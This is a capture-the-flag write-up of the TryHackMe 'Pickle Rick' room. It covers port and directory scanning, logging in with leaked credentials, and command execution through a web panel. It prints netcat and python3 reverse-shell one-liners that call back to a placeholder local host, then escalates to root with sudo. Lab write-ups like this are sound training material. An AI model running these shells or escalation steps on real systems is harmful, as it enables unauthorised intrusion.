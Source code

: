 # Pickle Rick
#### Author : [ar33zy](https://tryhackme.com/p/ar33zy)
#### Date : 09/03/2024
#### Link : https://tryhackme.com/room/picklerick
Note : the IP of the machine could be different for you !

## Challenge
### Enumeration 
First, let's perform a scan of the machine with `nmap -vv -T 5 -sV -sC -oN nmap.txt 10.10.124.198` to see if any port is open.

- `-vv` : Having minimum verbose mode
- `-T 5` : Scan with full speed
- `-sV`: Attempts to determine the version of the service running on port
- `-sC` : Scan with default NSE scripts. Considered useful for discovery and safe
- `-oN` : Normal output to the file nmap.txt
- `-Pn` : Treat all hosts as online

We have in particular this result :
``` bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:e4:90:3e:b6:0d:c9:fd:29:24:97:46:2b:d6:e6:21 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+XDw5CP11Y39wljhiuevTwERd1/cdjAnxT8W37tl8vXUUFXiyot534/LCS9fNhnkobbOnJXunLMsBHj2smsyJ/YKcCoeMr4AhxHQlCSKG9dHBNuFUl7ycx6bF9MTJtuW/2fZJrXNZu7eQjDI20AtzKB2VhTKq1AaZPN5QM2WCu/8hWQrBU9LFZtT+ttXarKHSKLRfGBf8j/KpXGiT7l4rWaJ+bPcxQsLMdgtAhUthXIFt2h7nLlD5iAhyusjnMNCoz2+oiWmzWhQZtFWV3XGKq14BLxLQT3Dgb4vea3ULLgOeofcN3ayiYGIzOQTwMe2LurfJzSRWamkMFBTdfNYJ
|   256 5d:8a:88:d1:80:3d:59:f6:30:a5:92:3e:bf:a5:f6:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE4sTiXZtlabMSYNh64mm25Z3DttXe/hUnW0fbwumnfmpdMFDhsw27FQK+X/zD5GoIXU2lxQq3pTwBvRLzGnWho=
|   256 fb:bb:64:3f:4e:ef:4a:d6:e1:e5:43:99:f5:94:90:11 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMmhfyGqQfA/pOL+9IJRBqqHBZcN0ggLt0IuL09eUqUq
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can conclude from this that 2 ports are open : 22 and 80.

Port 22 is SSH. Since we don't have any information about users, we will skip it for now.

Port 80 is HTTP, which means a website is up at this port. Let's check if we can have some information here.

### Website (Port 80)
#### Discovery
When we go at URL **10.10.124.198:80**, we arrive at this page :

![Website](images/Pickle_rick.png)

We seem to have nothing... A first thing to do in every website is then to check the source code.

There seem to be a comment here that tell us an interesting information.

<details>
    <summary>Clue</summary>
  
```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

</details>

We keep it for later.

Now, a good thing to do is enumerating the website to search for **hidden subdomains**. I will use Gobuster for that : `gobuster dir -u http://10.10.124.198/ -w SecLists/Discovery/Web-Content/common.txt -x.php,.txt`.

I recommand that you use [Seclists](https://github.com/danielmiessler/SecLists) to brute-force with Gobuster. 

The result is the following :
```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.124.198/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htaccess.php        (Status: 403) [Size: 301]
/.hta.php             (Status: 403) [Size: 296]
/.hta.txt             (Status: 403) [Size: 296]
/.htaccess.txt        (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 301]
/assets               (Status: 301) [Size: 315] [--> http://10.10.124.198/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 301]
Progress: 14169 / 14172 (99.98%)
===============================================================
Finished
===============================================================
```
There are some interesting subdomains : /robots.txt, /login.php and portal.php .

When we go on /robots.txt, we find another nice clue.

<details>
    <summary>Clue 2</summary>
  
```
Wubbalubbadubdub
```

</details>

/login.php and /portal.php send us both to /login.php.

![](images/login.jpg)



Let's try to login with the credentials we had earlier.
**User** : R1ckRul3s
**Password** : Wubbalubbadubdub

Bingo !


#### Login.php
![](images/command_panel.jpg)

If we try to navigate between the different sections, we see that only command is accessible for us. Let's try some commands then !

What if we try to list all files with `ls` ?
```bash
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
There seem to be some interesting files here. We can also note that it seems to replicate bash commands, which means we could try to connect with a reverse shell.

Let's try `cat Sup3rS3cretPickl3Ingred.txt` !

```bash
Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
```

Hmm, it seems that we can't do cat. Maybe something similar like `less Sup3rS3cretPickl3Ingred.txt` ?

And here we go ! We now have the **third ingredient** !

We have another clue through clue.txt :
<details>
    <summary>Clue</summary>
Look around the file system for the other ingredient.
    
</details>

Let's mess around with the files then.

I want to know where we are : `pwd`
```bash
/var/www/html
```

Now, let's see if there is anything in the home directory : `ls /home`.
```bash
rick
ubuntu
```

Let's see what files there are in rick : `ls /home/rick`.
```bash
second ingredients
```

Let's try to enter second : `cd /home/rick/second`.
```bash
No response
```

Maybe it's a full file ? Let's verify : `file /home/rick/'second ingredients` (` allow us to take the space into account).
```bash
/home/rick/second ingredients: ASCII text
```

Ok, it seems to be a simple texte file. We can then open it with `less /home/rick/'second ingredients`.<br>
This way, we have the **second ingredient**.

But what about now ?

Maybe we can try to make a reverse shell like we said earlier. Let's try our best commands from https://www.revshells.com/.

On our machine, let's start to listen for a connection : `nc -lvnp 1234`.

Then, let's try a simple `nc IP_LOCAL_MACHINE 1234 -e sh`.

No response.

After trying different commands, we find that python3 works : `export RHOST="IP_LOCAL_MACHINE";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'` 

And boom ! Reverse shell activated !

Let's do some privilege escalation. What does `sudo -l` tells us ?
```bash
Matching Defaults entries for www-data on
    ip-10-10-0-186.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-0-186.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We learn a very interesting fact here. We can run every command as anyone. Let's create a shell as root then : `sudo /bin/bash`.

...And here we go ! We now have root access over the machine. Let's see what we have in the root folder : `ls /root`.
```bash
3rd.txt  snap
```

And there, we have the **last ingredient**.







